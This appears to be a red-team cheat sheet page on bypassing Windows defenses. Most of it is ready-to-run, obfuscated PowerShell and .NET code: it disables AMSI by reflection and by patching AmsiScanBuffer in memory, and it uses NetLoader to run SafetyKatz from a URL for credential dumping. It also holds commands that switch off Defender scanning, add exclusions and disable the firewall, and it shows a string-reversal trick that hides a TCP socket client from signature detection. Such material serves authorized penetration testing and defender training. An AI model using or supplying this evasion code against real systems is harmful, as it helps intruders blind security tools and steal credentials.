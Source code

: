 # Bypass defenses

## AMSI Bypass

### PowerShell AMSI Bypass

{% tabs %}
{% tab title="Obfuscated" %}
{% code fullWidth="false" %}
```powershell
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```
{% endcode %}
{% endtab %}

{% tab title="Base64" %}
<pre class="language-powershell"><code class="lang-powershell"><strong>[Ref].Assembly.GetType('System.Management.Automation.'+$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QQBtAHMAaQBVAHQAaQBsAHMA')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),'NonPublic,Static').SetValue($null,$true)
</strong></code></pre>
{% endtab %}
{% endtabs %}

### .NET AMSI Bypass

```powershell
$ZQCUW = @"
using System;
using System.Runtime.InteropServices;
public class ZQCUW {
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
}
"@

Add-Type $ZQCUW

$BBWHVWQ = [ZQCUW]::LoadLibrary("$([SYstem.Net.wEBUtIlITy]::HTmldecoDE('&#97;&#109;&#115;&#105;&#46;&#100;&#108;&#108;'))")
$XPYMWR = [ZQCUW]::GetProcAddress($BBWHVWQ, "$([systeM.neT.webUtility]::HtMldECoDE('&#65;&#109;&#115;&#105;&#83;&#99;&#97;&#110;&#66;&#117;&#102;&#102;&#101;&#114;'))")
$p = 0
[ZQCUW]::VirtualProtect($XPYMWR, [uint32]5, 0x40, [ref]$p)
$TLML = "0xB8"
$PURX = "0x57"
$YNWL = "0x00"
$RTGX = "0x07"
$XVON = "0x80"
$WRUD = "0xC3"
$KTMJX = [Byte[]] ($TLML,$PURX,$YNWL,$RTGX,+$XVON,+$WRUD)
[System.Runtime.InteropServices.Marshal]::Copy($KTMJX, 0, $XPYMWR, 6)
```

### Invisi-Shell

{% embed url="https://github.com/OmerYa/Invisi-Shell" %}

Invisi-Shell bypasses all of PowerShell security features (ScriptBlock logging, Module logging, Transcription, AMSI) by hooking.

```powershell
# With admin privileges:
RunWithPathAsAdmin.bat 

# More Silent
# With non-admin privileges:
RunWithRegistryNonAdmin.bat

# Type exit from the new PowerShell session to complete the clean-up.
exit
```

### Loader

Use [`NetLoader` ](https://github.com/Flangvik/NetLoader)to unhook ETW and patch AMSI then run executable from URL without saving. Use port forwarder instead of running them directly. Otherwise, this triggers Defender’s behavior-based detection: executable downloaded from remote web server. Read more inside [#http-server](transfer-files.md#http-server "mention")

```powershell
NetLoader.exe -path http://127.0.0.1:8080/SafetyKatz.exe sekurlsa::ekeys exit
```

## Windows Defender

> **Note:** If Tamper protection is enabled you will not be able to turn off Defender by CMD or PowerShell. You can however, still create an exclusion.

Check Windows Defender Status with `Get-MpComputerStatus`

Disable real time monitoring. Need local admin access.

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```

Disable scanning for downloaded files (more silent and preferred)

```powershell
Set-MpPreference -DisableIOAVProtection $true
```

Create an exclusion if nothing works.

```powershell
Add-MpPreference -ExclusionPath "C:\Windows\Temp"
```

## AppLocker

### List AppLocker Rules

```powershell
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```

### Test AppLocker Policy

{% code fullWidth="false" %}
```powershell
Get-AppLockerPolicy -Local | Test-AppLockerPolicy -path C:\Windows\System32\cmd.exe -User Everyone
```
{% endcode %}

## Firewall

> **Note:** requires Admin privileges.

Disable using PowerShell

```powershell
Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False
```

Disable manually

<figure><img src="../.gitbook/assets/disable-firewall.png" alt=""><figcaption></figcaption></figure>

## AV Signatures Bypass

### AMSITrigger

identify the part of a script is detected

{% embed url="https://github.com/RythmStick/AMSITrigger" %}
AMSITrigger
{% endembed %}

Usage:

```powershell
AmsiTrigger_x64.exe -i PowerUp.ps1 
```

Example for scanning

<figure><img src="../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

Example for bypassing

<pre class="language-powershell"><code class="lang-powershell"><strong># Reverse the "Net.Sockets" string
</strong>
<strong>$String = "stekcoS.teN"
</strong>$class = ([regex]::Matches($String,'.','RightToLeft') | ForEach {$_.value}) -join ''
if ($Reverse)
{
 $client = New-Object System.$class.TCPClient($IPAddress,$Port)
}
</code></pre>

### DefenderChecker

Identify code and strings from a binary / file that Windows Defender may flag

{% embed url="https://github.com/t3hbb/DefenderCheck" %}
DefenderChecker
{% endembed %}

Usage:

```powershell
DefenderCheck.exe PowerUp.ps1 
```
